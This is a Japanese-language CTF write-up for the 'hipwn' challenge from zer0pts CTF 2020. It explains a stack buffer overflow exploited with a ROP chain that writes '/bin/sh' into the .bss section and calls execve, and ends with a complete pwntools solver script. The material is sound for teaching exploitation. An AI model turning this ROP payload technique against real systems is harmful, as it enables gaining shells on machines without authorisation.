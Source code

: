 ```yaml
---
title: "hipwn - zer0pts CTF 2020"
date: 2022-05-03T11:51:30+09:00
tags: ["pwn", "zer0ptsCTF2020", "ptr-yudai's chall"]
draft: false
---
```


[hipwn - zer0ptsCTF2020(My solver)](https://github.com/yu1hpa/ctf-writeup/tree/master/2020/zer0ptsCTF/hipwn)

[hipwn - zer0ptsCTF2020(Official GitLab)](https://gitlab.com/zer0pts/zer0pts-ctf-2020/-/tree/master/hipwn)

# 方針
　`.bss` section に`/bin/sh`という文字列を置いて、
Return Oriented Programming(ROP)を組んで、
`execve("/bin/sh", 0, 0)`を実行する。

### ROP gadgetとは
　gadgetとは、`pop rdi; ret;`などの`ret;`で終わるコード片のことです。

今回、必要なgadgetは`rdi` `rsi` `rdx` `rax` `syscall` です。

|gadget |役割              |
|-------|------------------|
|rdi    |第1引数           |
|rsi    |第2引数           |
|rdx    |第3引数           |
|rcx    |第4引数           |
|r8     |第5引数           |
|:      |:                 |
|rax    |システムコール番号|
|syscall|システムコール    |

また、`execve`のシステムコール番号は`59`である。

### .bss section とは
　rw(read and write)が可能な初期値を持たない変数を格納するためのセクションである。
`.bss` sectionを使う理由は、rwできて便利だから。

通常の入力に`"/bin/sh"`を送って、バッファのアドレスを指定してもいいと思う。

### gadgetを探す旅🐈
　[`ropper`](https://github.com/sashs/Ropper)を使って、それぞれのgadgetを探します。

例)

```
$ ropper -f chall --search "pop rdi;"

0x000000000040141c: pop rdi; ret;
```

```python
rop_pop_rdi = 0x0040141c
rop_pop_rax = 0x00400121
rop_pop_rsi_r15 = 0x0040141a
rop_pop_rdx = 0x004023f5
rop_syscall = 0x004024dd
```

#### IUPAP命名法
　余談ですが、ROP gadgetを書くときは、
わかりやすいように[IUPAP命名法](https://ptr-yudai.hatenablog.com/entry/2021/12/03/205406)にしたがいます。

### gets(bss)に相当するROP
　ROPを組むときは、スタックのLIFOを思い出します。

```python
pld += p64(rop_pop_rdi)
pld += p64(elf.bss())
pld += p64(addr_gets)
```

[![gets_bss](https://i.gyazo.com/1bb40b1ccd7e9a3f869cb35882281125.png)](https://gyazo.com/1bb40b1ccd7e9a3f869cb35882281125)

ここで、.bss section に対して入力が開くので、`"/bin/sh"`を入力します。(参照：[solver](https://github.com/yu1hpa/ctf-writeup/tree/master/2020/zer0ptsCTF/hipwn))

### execve("/bin/sh", 0, 0)に相当するROP
　`gets(bss)`と同様にやります。

```python
pld += p64(rop_pop_rdi)
pld += p64(elf.bss())
pld += p64(rop_pop_rsi_r15)
pld += p64(0)
pld += p64(0)
pld += p64(rop_pop_rdx)
pld += p64(0)
pld += p64(rop_pop_rax)
pld += p64(59) # SYS_execve
pld += p64(rop_syscall)
```

# Solver
```python
from pwn import *

file = "./chall"
context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

io = process(file)
elf = ELF(file)

rop_pop_rdi = 0x0040141c
rop_pop_rax = 0x00400121
rop_pop_rsi_r15 = 0x0040141a
rop_pop_rdx = 0x004023f5
rop_syscall = 0x004024dd
addr_gets = 0x004004ee

pld = b""
pld += b"A"*264
# get(bss)
pld += p64(rop_pop_rdi)
pld += p64(elf.bss())
pld += p64(addr_gets)
# execve(.bss, 0, 0)
pld += p64(rop_pop_rdi)
pld += p64(elf.bss()) #Line36 Input "/bin/sh"
pld += p64(rop_pop_rsi_r15)
pld += p64(0)
pld += p64(0)
pld += p64(rop_pop_rdx)
pld += p64(0)
pld += p64(rop_pop_rax)
pld += p64(59) # SYS_execve
pld += p64(rop_syscall)

io.sendlineafter("name?", pld)
io.sendline("/bin/sh\x00")

io.interactive()
```
